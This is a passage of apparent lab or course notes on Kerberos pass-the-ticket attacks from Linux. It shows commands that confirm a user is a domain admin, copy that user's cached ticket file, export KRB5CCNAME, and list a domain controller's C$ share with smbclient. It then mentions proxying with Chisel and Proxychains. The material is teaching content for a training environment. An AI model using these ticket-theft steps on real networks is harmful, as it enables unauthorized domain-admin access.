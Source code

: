 
**Identifying group membership with the id command**
- We can see that we have not seen the julio user, we should check their permissions to see if they have domain admin: 
```shell-session
root@linux01:~# id julio@inlanefreight.htb

uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)
```
- Seems as though they do, let's use this account to impersonate julio. 


Importing the ccache file into our current session: 
```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
  $Recycle.Bin                      DHS        0  Wed Oct  6 17:31:14 2021
  Config.Msi                        DHS        0  Wed Oct  6 14:26:27 2021
  Documents and Settings          DHSrn        0  Wed Oct  6 20:38:04 2021
  john                                D        0  Mon Jul 18 13:19:50 2022
  julio                               D        0  Mon Jul 18 13:54:02 2022
  pagefile.sys                      AHS 738197504  Thu Oct  6 21:32:44 2022
  PerfLogs                            D        0  Fri Feb 25 16:20:48 2022
  Program Files                      DR        0  Wed Oct  6 20:50:50 2021
  Program Files (x86)                 D        0  Mon Jul 18 16:00:35 2022
  ProgramData                       DHn        0  Fri Aug 19 12:18:42 2022
  SharedFolder                        D        0  Thu Oct  6 14:46:20 2022
  System Volume Information         DHS        0  Wed Jul 13 19:01:52 2022
  tools                               D        0  Thu Sep 22 18:19:04 2022
  Users                              DR        0  Thu Oct  6 11:46:05 2022
  Windows                             D        0  Wed Oct  5 13:20:00 2022

                7706623 blocks of size 4096. 4447612 blocks available
```

## Using Linux Attack Tools with Kerberos: 

In this scenario, our attack host doesn't have a connection to the `KDC/Domain Controller`, and we can't use the Domain Controller for name resolution. To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.
